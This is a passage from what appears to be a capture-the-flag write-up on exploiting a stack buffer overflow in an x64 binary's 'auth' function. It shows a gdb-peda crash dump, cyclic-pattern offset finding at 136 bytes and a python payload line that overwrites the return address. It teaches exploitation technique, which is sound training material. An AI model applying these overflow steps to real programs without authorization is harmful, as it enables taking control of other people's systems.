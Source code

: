 ```
   0x401621 <main+8>:   mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdf68 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)        
0008| 0x7fffffffdf70 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)        
0016| 0x7fffffffdf78 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%S"...)        
0024| 0x7fffffffdf80 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%"...)        
0032| 0x7fffffffdf88 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA"...)        
0040| 0x7fffffffdf90 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%W"...)        
0048| 0x7fffffffdf98 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%"...)        
0056| 0x7fffffffdfa0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA"...)        
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401618 in auth ()

```

In x64, I’m not going to see the segfault with the pattern in RIP like I would in x86. Instead, it throws an exception on trying to move an invalid address into RIP. Since I’m at a `ret`, the address moving into RIP is on top of the stack. So the value that would go into RIP is `AAQAAmAA`. That is part of the string I control, which means getting control over RIP is possible.

Furthermore, I can use `pattern_offset` to see how far into the input buffer those bytes are:

```

gdb-peda$ pattern_offset AAQAAmAA
AAQAAmAA found at offset: 136

```

I can do a sanity check:

```

$ python3 -c 'print("A"*136 + "B"*8)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

```
